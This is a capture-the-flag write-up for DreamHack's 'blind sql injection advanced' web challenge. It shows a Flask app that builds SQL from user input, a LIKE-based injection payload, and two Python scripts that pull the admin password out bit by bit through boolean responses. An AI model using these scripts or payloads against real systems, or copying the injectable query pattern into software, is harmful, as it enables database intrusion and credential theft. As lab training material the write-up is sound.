

# blind sql injection advanced — DreamHack

> **Room / Challenge:** blind sql injection advanced (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** DreamHack
- **Challenge:** blind sql injection advanced (web)
- **Link**: `https://dreamhack.io/wargame/challenges/411`
- **Level:** `2`
- **Date:** `10-11-2025`

---

## Goal

Leveraging Blind SQL Injection vulnerability to get the flag.

## My Solution

The flag is the `upw` of the user admin:

```sql
INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
```

The `app.py`:

```python

template ='''
<pre style="font-size:200%">SELECT * FROM users WHERE uid='{{uid}}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>

    <pre style="font-size:150%">user "{{uid}}" exists.</pre>

'''

@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)
```

This is clear that Blind SQL Injection can be executed in this app. We can try the payload:

```
admin' AND upw LIKE 'DH{%'; --
```

This will make the syntax: `SELECT * FROM users WHERE uid='admin' AND upw LIKE 'DH{%'; --';`, SELECT users whose uid is admin and if the upw is `DH{...` got:



Now I create a automated Python script to get the flag:

```python
import requests
import string

charset = string.ascii_lowercase + string.ascii_uppercase + string.digits
hangul_start = 0xAC00
hangul_end = 0xD7A3
hangul_chars = "".join(chr(i) for i in range(hangul_start, hangul_end + 1))
charset += hangul_chars

target_url = "http://host8.dreamhack.games:10960/?uid=admin%27+AND+upw+LIKE+%27DH%7B"
recevied_flag_content = ""

for i in range(0, 32):
    for char in charset:
        res = requests.get(f"{target_url}{recevied_flag_content}{char}%25%27%3B+--")
        print(f"Test {recevied_flag_content}{char}")

        print(f"{target_url}{recevied_flag_content}{char}%25%27%3B+--")

        if "exists" in res.text:
            recevied_flag_content += char
            print()
            print(f"Got {recevied_flag_content}")
            break
        elif char == charset[-1]:
            print('There is something wrong')

print()
print(f"Final flag content {recevied_flag_content}")
```

However this won't work because the Hangul charset is really special we should use the bit to calculate the characters:

```python
from requests import get

host = "http://host8.dreamhack.games:10960/"
password_length = 0

while True:
    password_length += 1
    query = f"admin' and char_length(upw) = {password_length}-- -"
    re = get(f"{host}/?uid={query}")
    if "exists" in re.text:
        break

print(f"password length: {password_length}")

password = ""

for i in range(1, password_length + 1):
    bit_length = 0

    while True:
        bit_length += 1
        query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bit_length}-- -"
        re = get(f"{host}/?uid={query}")
        if "exists" in re.text:
            break
    print(f"character {i}'s bit length: {bit_length}")

    bits = ""

    for j in range(1, bit_length + 1):
        query = f"admin' and substr(bin(ord(substr(upw, {i}, 1))), {j}, 1) = '1'-- -"
        re = get(f"{host}/?uid={query}")
        if "exists" in re.text:
            bits += "1"
        else:
            bits += "0"
    print(f"character {i}'s bits: {bits}")
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

print(password)
```


